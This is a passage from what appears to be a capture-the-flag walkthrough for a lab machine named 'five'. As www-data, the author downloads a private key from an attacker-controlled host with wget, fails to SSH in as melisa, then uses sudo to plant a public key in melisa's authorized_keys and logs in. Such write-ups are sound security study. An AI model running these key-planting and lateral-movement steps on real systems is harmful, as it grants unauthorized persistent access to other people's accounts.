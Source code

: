 
Bringing over id_rsa over from local machine to victim server:
```bash
$ wget http://192.168.56.3:1235/id_rsa
wget http://192.168.56.3:1235/id_rsa
--2021-12-28 05:32:31--  http://192.168.56.3:1235/id_rsa
Connecting to 192.168.56.3:1235... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2590 (2.5K) [application/octet-stream]
Saving to: ‘id_rsa’

id_rsa              100%[===================>]   2.53K  --.-KB/s    in 0s      

2021-12-28 05:32:31 (469 MB/s) - ‘id_rsa’ saved [2590/2590]

$ chmod 600 id_rsa
chmod 600 id_rsa
```
SSH as melisa!
```bash
$ ssh -i id_rsa melisa@localhost -p 4444
ssh -i id_rsa melisa@localhost -p 4444
Could not create directory '/var/www/.ssh'.
The authenticity of host '[localhost]:4444 ([127.0.0.1]:4444)' can't be established.
ECDSA key fingerprint is SHA256:jWQpYhXQJtOuJfrNjZvNSilLDT7fkbFxeioQzGTBY7Y.
Are you sure you want to continue connecting (yes/no)? yes
yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
melisa@localhost's password: 

Permission denied, please try again.
melisa@localhost's password: 

Permission denied, please try again.
melisa@localhost's password: 

melisa@localhost: Permission denied (publickey,password).

```
Looks like we require not only the publickey but also a password.

### Attempt 3
Reading from https://steflan-security.com/linux-privilege-escalation-exploiting-misconfigured-ssh-keys/.

Copying the public key to the **authorized_hosts** file,This allows to login to the server via SSH without having to specify any private keys (as Linux checks for private keys in the user’s home directory by default).

```bash
www-data@five:/tmp$ sudo -u melisa cp id_rsa.pub /home/melisa/.ssh/authorized_keys
www-data@five:/tmp$ chmod 600 id_rsa
chmod 600 id_rsa
www-data@five:/tmp$ ssh -i id_rsa melisa@localhost -p 4444
ssh -i id_rsa melisa@localhost -p 4444
Could not create directory '/var/www/.ssh'.
The authenticity of host '[localhost]:4444 ([127.0.0.1]:4444)' can't be established.
ECDSA key fingerprint is SHA256:jWQpYhXQJtOuJfrNjZvNSilLDT7fkbFxeioQzGTBY7Y.
Are you sure you want to continue connecting (yes/no)? yes
yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
Linux five 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
```